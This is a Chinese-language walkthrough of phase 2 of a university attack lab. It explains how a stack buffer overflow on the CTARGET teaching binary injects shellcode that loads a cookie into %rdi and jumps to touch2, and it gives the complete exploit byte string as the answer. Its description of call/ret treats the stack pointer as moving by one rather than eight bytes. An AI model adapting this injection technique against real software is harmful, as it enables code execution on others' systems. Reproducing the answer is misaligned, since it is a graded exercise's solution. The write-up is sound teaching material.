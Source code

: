 Your task is to get CTARGET to execute the code for touch2 rather than returning to test. In this case, however, you must make it appear to touch2 as if you have passed your cookie as its argument.

题目的意思很简单, 接着题目1, 现在要跳转的函数是touch2, 只不过touch2需要一个参数val, val是cookie的值. 这里就要用到注入了, 如何生成注入代码,请参照 attack lab的write up的Appendix B.

说明:cookie在lab文件中有, 我这里它是 0x59b997fa.

关键点:

1. cookie值
2. rdi寄存器保存函数的第一个参数.

思路简单:

1. 设置rdi = cookie value
2. 跳转到touch2即可.

但是这里存在两个跳转, 1.跳转我们的注入代码的首地址.2.跳转到touch2. 画个图看看:

![image-20200720232843852](https://cdn.jsdelivr.net/gh/ravenxrz/PicBed/img/image-20200720232843852.png)

也就是说,我们首先应该跳转到我们注入的代码的首地址, 然后注入代码执行过程中(红色的区域的某个部分),又跳转到touch2. 

跳转1很直观, 我们覆盖了原来的地址, 那跳转2如何实现?

这个就要理解清除call和ret指令的工作了, 简单说来:

1. call, %rsp-1, push当前执行指令的指令到%rsp所指的内存空间, 设置%rip为要跳转的函数的第一条指令地址.
2. ret, pop %rsp指向的内存空间的内容到 %rip, %rsp+1.

于是要实现跳转2, 我们只用push touch2的第一条指令的地址到$%rsp, %rsp-1即可. 其实也就一条命令:

```asm
push touch2_address
```

至于设置%rdi=cooike, 那就很直接了:

```asm
mov cookie_value, %rdi
```

结合两条指令, 写出汇编代码:

```asm
mov cookie_value, %rdi
push touch2_address
ret
```

更换为实际value, 并用objdump反汇编,最终可得答案:

```asm
/* question2: */
48 c7 c7 fa 97 b9 59 /* mov $0x59b997fa      %rdi 设置cooike */
68 ec 17 40 00       /* pushq  $0x4017ec     push touch2的地址 */
c3                   /* ret                  返回 */
/* 上面一共13个字节, buf一共40个字节所以需要填充 40-13=27个字节 */
00 00 00 00 00 00 00 00 /* 8 bytes */
00 00 00 00 00 00 00 00 /* 8 bytes */
00 00 00 00 00 00 00 00 /* 8 bytes */
00 00 00                /* 3 bytes */
78 dc 61 55 00 00 00 00 /* exploit string code 的开始地址（即get buf的栈地地址) */
```

